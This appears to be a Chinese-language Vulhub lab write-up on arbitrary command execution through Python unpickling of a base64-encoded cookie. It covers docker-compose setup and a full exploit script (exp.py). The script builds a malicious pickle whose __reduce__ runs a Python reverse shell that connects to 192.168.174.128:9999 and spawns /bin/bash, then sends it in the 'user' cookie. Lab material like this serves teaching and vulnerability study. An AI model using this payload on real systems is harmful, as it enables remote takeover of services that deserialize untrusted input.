

Python unpickle 造成任意命令执行漏洞¶
漏洞描述¶
参考阅读：
- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
环境搭建¶
Vulhub 编译及运行测试环境：
docker-compose build
docker-compose up -d
访问 http://your-ip:8000，显示 Hello {username}!。
漏洞复现¶
username 是取 Cookie 变量 user，对其进行 base64 解码 + 反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'。
调用 exp.py，监听 9999 端口，反弹 shell：
#!/usr/bin/env python3
import requests
import pickle
import os
import base64
class exp(object):
def __reduce__(self):
s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
return (os.system, (s,))
e = exp()
s = pickle.dumps(e)
response = requests.get("http://192.168.174.128:8000/", cookies=dict(
user=base64.b64encode(s).decode()
))
print(response.content)
